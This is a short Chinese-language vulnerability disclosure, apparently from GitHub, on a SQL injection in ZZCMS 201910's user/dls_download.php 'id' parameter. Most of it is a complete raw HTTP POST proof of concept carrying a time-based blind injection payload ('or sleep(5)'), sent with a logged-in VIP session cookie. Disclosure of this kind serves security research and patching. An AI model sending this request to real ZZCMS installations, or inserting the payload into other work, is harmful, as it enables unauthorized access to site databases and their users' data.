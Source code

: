 ## ZZCMS201910 SQL Injections SQL注入  

> 前提是你有一个具有购买权限的VIP会员账户
> 不然会提示：`"您所在的用户组没有下载此信息的权限！<br><input  type=button value=升级成VIP会员 onclick=\"location.href='/one/vipuser.php'\"/>"`  

### 注入点 ` user/dls_download with parameter $id`

### 利用POC如下  

```raw
POST /user/dls_download.php HTTP/1.1
Host: test.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://test.com
Connection: close
Referer: http://test.com/user/advzt_manage.php
Cookie: Hm_lvt_f6f37dc3416ca514857b78d0b158037e=1576564072; Hm_lvt_520556228c0113270c0c772027905838=1576734687,1577071433; app_href_source=myapp/free; PHPSESSID=f0fb73cc2f2d41d2a3b1edb7340841a3; arrlanguage=metinfo; Hm_lpvt_520556228c0113270c0c772027905838=1577672843; acc_auth=4b90lwFZZGUdz47dUybObYz1MoB612Tg7bCn10U0P4BKoY%2FR9nnvQapvPIBF%2BB4w11KPOWCNH%2FLvwx9rH7424ZH0; acc_key=eXM7G4F; __tins__713776=%7B%22sid%22%3A%201577775703119%2C%20%22vd%22%3A%201%2C%20%22expires%22%3A%201577777503119%7D; __51cke__=; __51laig__=28; bdshare_firstime=1577771760963; UserName=test; PassWord=4297f44b13955235245b2497399d7a93
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

id[]=1&id[]=2)%0aor%0asleep(5)%23&FileExt=xxx
```

来源与：https://github.com/JcQSteven/blog/issues/15